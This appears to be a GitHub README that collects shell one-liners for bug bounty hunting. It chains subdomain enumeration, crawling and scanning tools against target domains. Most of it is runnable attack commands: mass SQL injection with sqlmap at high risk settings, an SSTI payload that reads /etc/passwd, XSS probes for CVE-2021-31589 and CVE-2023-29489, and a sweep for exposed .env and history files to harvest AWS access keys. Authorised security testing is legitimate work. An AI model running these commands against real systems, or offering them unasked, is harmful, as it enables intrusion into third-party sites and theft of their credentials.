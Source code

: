 # Oneliner-Bugbounty
A collection oneliner scripts for bug bounty

## List tools
- [Subfinder](https://github.com/projectdiscovery/subfinder)
- [Naabu](https://github.com/projectdiscovery/naabu)
- [httpx](https://github.com/projectdiscovery/httpx)
- [Nuclei](https://github.com/projectdiscovery/nuclei)
- [Waybackurls](https://github.com/tomnomnom/waybackurls)
- [DNSProbe](https://github.com/projectdiscovery/dnsprobe)
- [gf](https://github.com/tomnomnom/gf)
- [sqlmap](https://github.com/sqlmapproject/sqlmap)
- [qsreplace](https://github.com/tomnomnom/qsreplace)
- [hakrawler](https://github.com/hakluke/hakrawler)
- [Puredns](https://github.com/d3mondev/puredns)
- [GauPlus](https://github.com/bp0lr/gauplus)
- [uro](https://github.com/s0md3v/uro)

### Auto scanner

```bash
subfinder -d site.com -all | naabu | httpx | nuclei -t nuclei-templates
```

### Finding files (For example in here .json file)

```bash
subfinder -d site.com -all | naabu | httpx | waybackurls | grep -E ".json(?:onp?)?$"
```

### Find interesting subdomain (For example like admin.staging.example.com) 

```bash
subfinder -d site.com -all | dnsprobe -silent | cut -d ' ' -f1 | grep --color 'dmz\|api\|staging\|env\|v1\|stag\|prod\|dev\|stg\|test\|demo\|pre\|admin\|beta\|vpn\|cdn\|coll\|sandbox\|qa\|intra\|extra\|s3\|external\|back'
```

### Find SQL injection at scale

```bash
subfinder -d site.com -all -silent | waybackurls | sort -u | gf sqli > gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli.txt
```

### Find open redirects at scale

```bash
subfinder -d site.com -all -silent | waybackurls | sort -u | gf redirect | qsreplace 'https://example.com' | httpx -fr -title --match-string 'Example Domain'
```

### Find SSTI at scale

```bash
echo "domain" | subfinder -silent | waybackurls | gf ssti | qsreplace "{{''.class.mro[2].subclasses()[40]('/etc/passwd').read()}}" | parallel -j50 -q curl -g | grep  "root:x"
```

### Scanning top exploited vulnerabilities according to CISA

```bash
subfinder -d site.com -all -silent | httpx -silent | nuclei -rl 50 -c 15 -timeout 10 -tags cisa -vv
```

### Bruteforce subdomains

```bash
subfinder -d site.com -all -silent | httpx -silent | hakrawler | tr "[:punct:]" "\n" | sort -u > wordlist.txt

puredns bruteforce wordlist.txt site.com -r resolvers.txt -w output.txt
```

### Finding Cross-Site Scripting (XSS) using KnoXSS API

```bash
echo "domain" | subfinder -silent | gauplus | grep "=" | uro | gf xss | awk '{ print "curl https://knoxss[.]me/api/v3 -d \"target="$1 "\" -H \"X-API-KEY: APIKNOXSS\""}' | sh
```

### CVE-2021-31589

```bash
cat subs.txt | while read host do; do curl -sk "$host/appliance/login.ns?login%5Bpassword%5D=test%22%3E%3Csvg/onload=alert(document.domain)%3E&login%5Buse_curr%5D=1&login%5Bsubmit%5D=Change%20Password" | grep -qs '"><svg/onload=alert(document.domain)>' && echo "$host: Vuln" || echo "$host: Not Vuln"; done
```

### CVE-2023-29489

```bash
subfinder -d target.com -silent -all | httpx -silent -ports http:80,https:443,2082,2083 -path 'cpanelwebcall/<img%20src=x%20onerror="prompt(document.domain)">aaaaaaaaaa' -mc 400
``` 

### Clean list of host, port, and version

```bash
mkdir nmap; cat targets.txt | parallel -j 35 nmap {} -sTVC -host-timeout 15m -oN nmap/{} -p 22,80,443,8080 --open > /dev/null 2>&1; cd nmap; grep -Hari "/tcp" | tee -a ../services.txt; cd ../
```

### Waybackurls validator

```bash
waybackurls http://example.com | grep "url" | xargs -n 1 curl -s -o /dev/null -w "%{http_code} > %{url_effective}\n" | sort
```

### Extract endpoints from JS (Part 1)

```bash
curl -L -k -s https://www.example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | awk -F '//' '{if(length($2))print "https://"$2}' | sort -fu | xargs -I '%' sh -c "curl -k -s \"%\" | sed \"s/[;}\)>]/\n/g\" | grep -Po \"(['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})|(\.(get|post|ajax|load)\s*\(\s*['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})\"" | awk -F "['\"]" '{print $2}' | sort -fu
```

### Extract endpoints from JS (Part 2)

```bash
curl -Lks https://example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | sed -r "s/^src['\"]?[=:]['\"]//g" | awk -v url=https://example.com '{if(length($1)) if($1 ~/^http/) print $1; else if($1 ~/^\/\//) print "https:"$1; else print url"/"$1}' | sort -fu | xargs -I '%' sh -c "echo \"\n##### %\";wget --no-check-certificate --quiet \"%\"; basename \"%\" | xargs -I \"#\" sh -c 'linkfinder.py -o cli -i #'"
```

### Extract endpoints from JS (Part 3)

```bash
curl -Lks https://example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | sed -r "s/^src['\"]?[=:]['\"]//g" | awk -v url=https://example.com '{if(length($1)) if($1 ~/^http/) print $1; else if($1 ~/^\/\//) print "https:"$1; else print url"/"$1}' | sort -fu | xargs -I '%' sh -c "echo \"\n##### %\";wget --no-check-certificate --quiet \"%\";curl -Lks \"%\" | sed \"s/[;}\)>]/\n/g\" | grep -Po \"('#####.*)|(['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})|(\.(get|post|ajax|load)\s*\(\s*['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})\" | sort -fu" | tr -d "'\""
```

### Extract endpoints from JS (Part 4)

```bash
curl -Lks https://example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | sed -r "s/^src['\"]?[=:]['\"]//g" | awk -v url=https://example.com '{if(length($1)) if($1 ~/^http/) print $1; else if($1 ~/^\/\//) print "https:"$1; else print url"/"$1}' | sort -fu | xargs -I '%' sh -c "echo \"'##### %\";curl -k -s \"%\" | sed \"s/[;}\)>]/\n/g\" | grep -Po \"('#####.*)|(['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})|(\.(get|post|ajax|load)\s*\(\s*['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})\" | sort -fu" | tr -d "'\""
```

### Find Access Keys for IAM

```bash
echo example.com | subfinder -silent -all | httpx -silent -path ".env",".mysql_history","echo $(echo $(</dev/stdin) | cut -d "." -f2).sql" -mc 200 -ports 80,443,8080,8443 | grep -E -i "AKIA[A-Z0-9]{16}"
```

### Subdomain enumeration with Spyse API

```bash
curl -XGET "https://api.sypse.com/v3/data/domain/subdomain?limit=100&offset=100&domain=example.com" -H "Accept: application/json" -H "Authorization: Bearer TOKEN_HERE" 2>/dev/null | jq '.data.items | .[] | .name' | sed -e 's/^"//' -e 's/"$//' | grep example.com
```

## References
- [ReconOne](https://twitter.com/ReconOne_)
- [jdksec](https://twitter.com/jdksec/status/1236891532256575488)
- [atikqur007](https://twitter.com/atikqur007/status/1253235713023320064)
- [ofjaaah](https://twitter.com/ofjaaah/status/1532581839344394241)
- [pikpikcu](https://twitter.com/sec715/status/1295216521501908992)
- [gwen001](https://gist.github.com/gwen001/0b15714d964d99c740a7e8998bd483df)
- [sazekodzeb](https://twitter.com/sazekodzeb/status/1535967868390711302)
- [TheDarkSideOps](https://twitter.com/TheDarkSideOps/status/1310744404605501441)
